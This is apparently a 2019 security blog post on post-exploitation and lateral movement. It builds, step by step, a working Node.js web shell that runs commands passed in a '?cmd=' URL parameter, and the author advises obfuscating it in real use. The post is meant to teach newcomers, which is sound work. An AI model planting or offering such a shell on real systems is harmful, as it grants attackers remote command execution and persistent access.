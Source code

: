 ```yaml
---
title: 'Life after getting root: Part I'
date: 2019-08-05 10:00:06
tags:
---
```




## l337 h4x0R 👨‍💻


When newcomers to the security field (like myself :grin:) learn a few techniques to pwn a machine, they try to learn more and more methods because they think their end goal is just to be root on a specific machine ( :wave: some CTFs). 

Don't get me wrong, the adrenaline that you get when you do that is real and maybe your friends are impressed, but don't you want to get to the next level and use your new position to sniff around even more to try and find a new target? 

### "I am domain admin, there is nothing stopping me :smiling_imp:"

Well, not quite. :wink: 

* There can be the case that you have worked for days or weeks to get control over the domain controller and because of the [forest organisation](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model) that is used, you still cannot access what you wanted.
* Sometimes people are watching and trying to catch you ( :wave: threat hunters  ), so sooner or later you will lose that priviledge.

---

### Back to the basics

If you read any hacking methodology, you will remember that the stages that you will go through are:
    1. Inteligence Gathering 
    2. Threat Modelling
    3. Vulnerability Analysis
    4. Expoitation
    5. Post Exploitation

###### Note: If you want to do this professionally, the methodology will look like this:
1. **Pre-engagement Interaction**
2. Inteligence Gathering 
3. Threat Modelling
4. Vulnerability Analysis
5. Expoitation
6. Post Exploitation
7. **Reporting**
---


The first time when I read that, I thought the *Post Exploitation* step is the one that does not matter that much because it can be summarized as "get the information that you want and disappear".
###### Spoiler alert: I was terribly wrong. 😥 

## Lateral Movement

When we talk about lateral movement in respect to the methodology from above, you might need to repeat the steps from 1-4 again and again, along with other steps, such as exfiltrating the data and covering your tracks.

### Old habits never die


##### Remember
Just because you have a high privileged account, it doesn't mean that you can move freely everywhere. There may be the case that you have to escalate your privileges again, so do not get too comfy. :worried:


A summary of this idea can be:
* Find assets
* Escalate priviledge
* Move around the network
* Repeat



###### Note: It is not always the case that you can go from a low privileged account to a high privileged account, you might need to move a bit until you find that account that is your golden ticket.



![Credits: https://github.com/infosecn1nja ](https://camo.githubusercontent.com/9547d8152e3490a6e5e3da0279faab64340885be/68747470733a2f2f646f63732e6d6963726f736f66742e636f6d2f656e2d75732f616476616e6365642d7468726561742d616e616c79746963732f6d656469612f61747461636b2d6b696c6c2d636861696e2d736d616c6c2e6a7067)


### Techniques and tactics

**"This was all nice talk but show me something technical. 🙄 "**
A lot of people try to skip the introduction and go straight to the "juicy stuff" and while that might be appropriate for some, people that are just starting need to understand the motivation for learning those techniques, because at the end of the day no one will be impressed that you know SSH Hijacking or Pass the Hash, if you do not have an intuition for why you might use it.


#### Web shells
This is the most common type of lateral movement when you find a server running on HTTP/HTTPS.

We will do an example in NodeJS with no external dependencies 😲 and I will also make the code readable, for educational purposes, but in a real even, you should try to obfuscate the code as much as possible.


1. the components that we will need are the 'http', 'url' and 'child_process' modules that Node provides out of the box

```javascript
const http = require('http');
const process = require('child_process');
const url = require('url');
```
1. create the server that will execute our commands/the payload and set up the hostname IP and port

``` javascript
const http = require('http');
const process = require('child_process');
const url = require('url');

const HOSTNAME = '127.0.0.1';
const PORT = 9002;
const server = http.createServer((req, res) => {
    res.writeHead(200, { 
        "Content-Type": "text/plain",
    });
  });

server.listen(PORT, HOSTNAME, () => {
    console.log(`Server running at http://${HOSTNAME}:${PORT}/`);
  });
```
---
###### **Fun fact** for all of you Node nerds (I know you exist): We could have used the *setHeader* method  instead of the *writeHead* method, but if you find yourself that you need to send multiple headers, you could do everything in a single method (writeHead) or use multiple methods (setHeader).

``` javascript
const server = http.createServer((req, res) => {
    res.statusCode = 200;
    res.setHeader('Content-Type', 'text/plain');
    res.setHeader("Set-Cookie", "type=ninja");
  });
```

``` javascript
const server = http.createServer((req, res) => {
       res.writeHead(200, { 
        "Content-Type": "text/plain",
        "Set-Cookie": "type=ninja",
    }); 
  });
```




---

Back to our webshell.
1. we will insert all our payloads as *?cmd=evilCommand*, so to do this, we will take the url, parse it and get the query from it

``` javascript
const http = require('http');
const process = require('child_process');
const url = require('url');

const HOSTNAME = '127.0.0.1';
const PORT = 9002;
const server = http.createServer((req, res) => {
    res.writeHead(200, { 
        "Content-Type": "text/plain",
    });
    const queryData = url.parse(req.url, true).query;

    if(queryData.cmd){
        res.end(`You are so evil, trying to execute ${queryData.cmd}\n`);
    } else {
        res.end(`How about a payload?\n`);
    }

  });


server.listen(PORT, HOSTNAME, () => {
    console.log(`Server running at http://${HOSTNAME}:${PORT}/`);
  });

```
If you were to test the shell so far by going to *http://127.0.0.1:9002/?cmd=whoami*, you would see:

![Web Shell 1](/../posts_resources/Life-after-getting-root/web-shell1.png) 

1. execute the payload and send back the result of stdout

```javascript
const http = require('http');
const process = require('child_process');
const url = require('url');

const HOSTNAME = '127.0.0.1';
const PORT = 9002;
const server = http.createServer((req, res) => {
    res.writeHead(200, { 
        "Content-Type": "text/plain",
    });
    const queryData = url.parse(req.url, true).query;

    if(queryData.cmd){
        //res.end(`You are so evil, trying to execute:\n ${queryData.cmd}\n`);
        process.exec(queryData.cmd, (err, stdout, stderr) => {
            res.end(stdout);
        });
    } else {
        res.end(`How about a payload?\n`);
    }

  });


server.listen(PORT, HOSTNAME, () => {
    console.log(`Server running at http://${HOSTNAME}:${PORT}/`);
  });
```
Congrats, you have just learnt how to build a web shell. 🎉 🙌

![Web Shell 2](/../posts_resources/Life-after-getting-root/web-shell2.png)

A complex example of a web shell is the "China Chopper Web Shell", which can also be used as a persistence mechanism for an attacker. A full analysis was done by FireEye [here](https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/rpt-china-chopper.pdf).
Also, if you want to know more about web shells, I recommend [this resource](https://attack.mitre.org/techniques/T1100/).
This is the end of the first part folks 👋. 

In the second part, I will cover more techniques for lateral movement and we will also make a quick transition to the next big topic: Persistence. 😆
